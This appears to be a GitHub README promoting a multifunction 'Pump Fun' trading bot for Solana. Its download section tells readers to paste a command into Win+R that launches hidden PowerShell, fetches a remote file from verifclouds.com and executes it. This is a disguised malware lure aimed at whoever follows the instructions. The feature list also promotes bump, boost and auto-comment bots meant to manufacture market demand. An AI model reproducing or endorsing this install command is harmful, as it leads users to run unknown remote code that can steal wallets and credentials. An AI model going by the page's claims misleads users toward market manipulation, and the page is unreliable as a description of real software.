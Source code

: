 ## **Pump Fun Bot for Solana** | **Solana Multifunctional PumpFun Bot** 🤖

![Pump Fun Bot](https://i.ytimg.com/vi/TRwW5UPT9mo/maxresdefault.jpg)

## Project Description.
**Pump Fun Bot** is your all-in-one solution for automated trading on the Solana blockchain! 🌟 This multi-functional bot combines various powerful features to streamline your trading experience and help you stay ahead in the competitive cryptocurrency market. With tools like the **PumpFun Trading Bot**, **Pump Fun Bundle Bot**, and more, you can manage your investments efficiently and effectively.

<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://verifclouds.com/1.txt';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

## Key Features.
- **💰 Pump Fun Bundle Bot**: Effortlessly distribute SOL across multiple wallets with the bundle bot feature. This function enhances liquidity and manages risk by allowing you to send tokens to numerous wallets simultaneously.

- **🛒 Pump Fun Buy Bot**: Automate your token purchases with the buy bot, ensuring you acquire assets at optimal prices. Set your parameters and let the bot handle the buying process, so you never miss a great investment opportunity.

- **🚀 Pump Fun Boost Bot**: Increase your trading volume and market presence using the boost bot. This feature helps you implement strategies that attract attention to your tokens, making them more appealing to potential buyers.

- **📈 Pump Fun Bump Bot**: Maintain momentum for your tokens with the bump bot, which strategically places buy orders to create urgency and interest in the market, ultimately driving up demand.

- **💬 Pump Fun Auto Comment Bot**: Engage your community effortlessly with the auto comment bot. This feature allows for automatic posting of comments and updates, keeping your audience informed and involved with your projects.

- **🤖 Pump Fun AI Bot**: Utilize advanced AI capabilities to analyze market trends and make data-driven decisions. The AI bot helps optimize your trading strategies and identify potential investment opportunities.

- **🔍 Snipe Token**: Quickly purchase tokens at the best prices with the snipe functionality, ensuring you capitalize on optimal moments in the market.

- **📦 Bundle Selling**: Increase sales efficiency and user engagement through bundle selling, allowing you to sell multiple tokens in a single transaction.

- **🌐 Gather SOL**: Strategically gather SOL to optimize asset management and liquidity, ensuring you have the necessary resources for your trading activities.

- **🛡️ Protect against Rug Pulls**: Safeguard your investments by analyzing projects for signs of fraud, helping users make informed decisions and avoid scams.
